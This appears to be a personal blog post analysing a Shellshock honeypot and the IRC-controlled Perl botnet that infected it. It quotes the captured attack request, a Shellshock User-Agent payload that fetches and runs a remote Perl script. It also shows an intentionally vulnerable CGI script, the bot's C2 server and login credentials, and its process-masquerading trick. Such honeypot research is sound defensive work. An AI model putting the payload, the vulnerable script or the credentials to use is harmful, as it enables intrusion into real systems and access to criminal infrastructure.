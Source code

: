 ```yaml
---
layout: post
title: "A close look at an operating botnet"
description: ""
category: Botnet
tags: []
image: /assets/images/botnet/cover.png
---
```

{% include JB/setup %}

For those that don't know, a [botnet](https://en.wikipedia.org/wiki/Botnet) is a network of hacked computers that somehow connect
back to a command and control server which instructs the network to conduct malicious activities like DDOS attacks, phishing, or spam.

# What happened

This past summer, I decided to set up a honey pot server.  I hadn't done something like
that before and I was curious to see what would show up.

I set up a fresh Digital Ocean instance and installed a vulnerability that could be
remotely exploited.  I choose to use the [shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) 
bug and installed an [older version of bash](http://ftp.gnu.org/gnu/bash/).  Shellshock was a vulnerability in Bash that
would execute code in a environment variable.  This can easily be exploited remotely because of how CGI web servers
pass arguments through environment variables.

After installing Bash 4.2, I set up an Apache web server to serve CGI.  So common URL's
and 404's would all map to one simple, shellshock-vulnerable script:

```bash
#!/bin/bash
echo -e "Content-type:text/html\r\n\r\n"
echo "Hi $HTTP_USER_AGENT"
```

Functionally the script just returns a text page saying hi to whatever the user agent string was.  But if an HTTP request
were to look something like this:

```
GET /hello HTTP/1.1
Host:        104.131.107.238
User-Agent:  () { :;}; /bin/bash -c "cd /tmp;lwp-download -a http://23.229.121.189/ex;curl -O http://23.229.121.189/ex;wget http://23.229.121.189/ex;perl /tmp/ex*;perl ex;rm -rf /tmp/ex*"
```

Then Bash 4.2 will execute the code in the User-Agent string, which downloads a Perl script, [ex](https://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex), and runs it.

This after leaving the server running for a couple months, that is exactly what happened.

# Analysis

To summarize the Perl script, it's about 500 lines, connects to a server, `wileful.com`, and listens for commands.  Some of the commands it looks for
include `tcpflood`, `eval`, and `shell`.  This looks like functionality for a botnet bot.  

It also implements some stealth.  Upon running the program,
it immediately forks a `/usr/sbin/httpd` process, overwrites it with the Perl process using `exec`, and detaches from the parent process so it
can run independently in the background.

So you won't be able to see a new perl process running.  Instead, a new `/usr/sbin/httpd` process will be running.

```bash
root@b0b6000146fa:~# perl ex 
root@b0b6000146fa:~# ps aux |grep perl
root        31  0.0  0.0   8860   648 ?        S+   16:30   0:00 grep --color=auto perl
root@b0b6000146fa:~# ps aux |grep httpd
root        29  0.0  0.0  24516  3856 ?        S    16:30   0:00 /usr/sbin/httpd
root        33  0.0  0.0   8860   644 ?        S+   16:30   0:00 grep --color=auto httpd
```

If you check the CPU usage of processes, however, `/usr/sbin/httpd` sticks out like a sore thumb because it
polls the server socket with no timeout after it connects.  This spins the CPU (oops).

```
# Output from top
  PID USER      PR  NI    VIRT    RES    SHR S   %CPU %MEM     TIME+    COMMAND
  8440 root     20   0   24984   3696    408 R   99.9  0.7     1921:38  /usr/sbin/httpd
```

I wanted to see what the program communicated with the server so I put it in a docker container and ran tcpdump.
After it initially connected with the server, these messages were sent:

```bash
# Bot  (5.9.118.150 is wileful.com)
USER GNU 104.131.107.238 5.9.118.150 :GN
PASS swedenrocks
# Server
:Unreal.conf NOTICE AUTH :*** Looking up your hostname...
:Unreal.conf NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
:Unreal.conf 433 * GNU :Nickname is already in use.
NICK GNU4387
# Server
PING :DEFB9868
# Bot
PONG :DEFB9868
# Server
:Unreal.conf 001 GNU4387 :Welcome to the XpowerHost IRC Network GNU4387!GNU@104.131.107.238
:Unreal.conf 002 GNU4387 :Your host is Unreal.conf, running version Unreal3.2.10.5
:Unreal.conf 003 GNU4387 :This server was created Mon Sep 28 2015 at 20:41:48 EDT
```

Some of you may immediately recognize this as IRC.  This botnet seems kind of old school: no SSL
and controlled over IRC.

Well it looks like I have a username, password, and server address.  Why don't I try logging 
into the botnet with a regular IRC client?

I fired up another docker instance, [Weechat](https://weechat.org/), and a tor proxy.  After
connecting to `irc://GNU:swedenrocks@wileful.com:443`, this is what I saw:

![Connected to botnet](/assets/images/botnet/connected.png "Connected to a botnet")

Wow, there's a total of 977 connected 'users' and 6 different channels.  As seen from tcpdump, my bot was instructed
to join channel `#113` so I figured I would do the same:

![Channel #113](/assets/images/botnet/113-2.png "Channel #113")

Either all 932 clients in the channel are pretty unoriginal when coming up with a nick or the bots are assigned a nick formatted like `GNU<ID>`.
Everyone is really shy too, because no one says anything.  After idling in the channel for a few minutes, this is all to be 
seen:

![Just leaving and joining](/assets/images/botnet/idle.png "Just leaving and joining")

Looks like bots are actively leaving and joining.  I suspect that the operaters were moving around the bots
or were continually exploiting shellshock vulnerable machines like my honey pot.

I wanted to see if I could send commands to the botnet since I had access to the channels, but after
a couple hours of unfurling the perl script, I discovered that it authenticates commands based on the 
[servername and nickname in the IRC message](https://tools.ietf.org/html/rfc2812#section-2.3.1).  I
could not spoof this since it was something only an operator on the IRC network could do.

# Back to the infected honey pot

I let my infected honey pot run for a few days and I checked out 
the IRC tranactions in the pcap logs.  On intervals it would do the following:

* Download a script to send emails with attachments.
* Download a list of email addresses.
* Run the script with the list of emails and possibly other files.

This is probably for phishing attacks or spam.  No DOS attacks.

# Conclusion

I didn't want my honey pot to be contributing to illegal activities, so I shut it down.

It wasn't long before I couldn't log in to the IRC network on `wileful.com`.  

![No more access](/assets/images/botnet/nope.png "No more access")

At first I thought I got
locked out, but after scanning it from multiple different IP addresses I never used before,
it was still unresponsive.  I suspect that the botnet moved to another server or stopped accepting new connections.


My setup for the honey pot and my results from this analysis can be found [here](https://github.com/conorpp/fluffy-barnacle).
If you have any similar experience with this or know more, please send me a message. I'd like to learn more.


{% include JB/mytwitter %}
